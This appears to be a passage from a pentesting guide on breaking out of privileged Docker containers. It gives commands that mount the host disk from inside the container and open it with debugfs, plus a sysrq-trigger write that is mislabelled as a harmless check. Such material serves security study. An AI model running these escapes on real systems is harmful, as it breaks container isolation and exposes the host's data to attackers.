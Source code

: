 ### Privileged

Just with the privileged flag you can try to access the host's disk or try to escape abusing release_agent or other escapes.

Test the following bypasses in a container executing:

```
docker run --rm -it --privileged ubuntu bash
```

#### Mounting Disk - Poc1

Well configured docker containers won't allow command like fdisk -l. However on miss-configured docker command where the flag `--privileged` or `--device=/dev/sda1` with caps is specified, it is possible to get the privileges to see the host drive.

So to take over the host machine, it is trivial:

```
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
```

And voilà ! You can now access the filesystem of the host because it is mounted in the `/mnt/hola` folder.

#### Mounting Disk - Poc2

Within the container, an attacker may attempt to gain further access to the underlying host OS via a writable hostPath volume created by the cluster. Below is some common things you can check within the container to see if you leverage this attacker vector:

```
### Check if You Can Write to a File-system
echo 1 > /proc/sysrq-trigger

### Check root UUID
cat /proc/cmdline
BOOT_IMAGE=/boot/vmlinuz-4.4.0-197-generic root=UUID=b2e62f4f-d338-470e-9ae7-4fc0e014858c ro console=tty1 console=ttyS0 earlyprintk=ttyS0 rootdelay=300

# Check Underlying Host Filesystem
findfs UUID=<UUID Value>
/dev/sda1

# Attempt to Mount the Host's Filesystem
mkdir /mnt-test
mount /dev/sda1 /mnt-test
mount: /mnt: permission denied. ---> Failed! but if not, you may have access to the underlying host OS file-system now.

### debugfs (Interactive File System Debugger)
debugfs /dev/sda1
```
